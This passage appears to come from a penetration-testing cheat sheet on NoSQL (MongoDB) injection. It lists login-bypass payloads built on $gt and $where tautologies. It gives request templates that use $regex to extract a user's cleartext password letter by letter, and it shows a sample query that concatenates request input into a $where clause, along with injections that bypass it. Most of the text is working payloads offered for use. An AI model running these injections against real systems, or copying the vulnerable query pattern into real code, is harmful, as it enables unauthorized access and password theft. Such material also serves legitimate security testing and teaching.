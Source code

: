```
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
```

###### Authentication extract password

An injection in a login form can be used to retrieve an user clear text
password.
The `$regex` evaluation operator can be used to determine the password length
and the password itself using letter by letter matching.  

The authentication will fail as soon as the condition specified by the regex
evaluate to false.

```
# Determine password length
username=<USERNAME>&password[$regex]=.{1}
...
username=<USERNAME>&password[$regex]=.{<N>}

# Extract clear-text password - GET/POST key-value pairs
username=<USERNAME>&password[$regex]=<LETTER>.{<PASSWORD_LENGTH>}
...
username=<USERNAME>&password[$regex]=p@ss<NEXT_LETTER>.{<PASSWORD_LENGTH - 4>}

# Extract clear-text password - JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^<LETTER>" }}
...
{"username": {"$eq": "admin"}, "password": {"$regex": "^p@ss<NEXT_LETTER>" }}
```

###### `$where` tautology

The `$where` operator can be used to make conditional statements such as the
one in the following code:

```
var query = {
    $where: "this.secretCode === " + req.body.secretCode
}

db.secretData.find(query).each(function(err, doc) {
    console.log(doc);
})
```

Conditions in `$where` clause could be bypassed using the following injections:

```
'0; return true'
'\'; return \'\' == \''
```

###### NoSQL injection using `db`
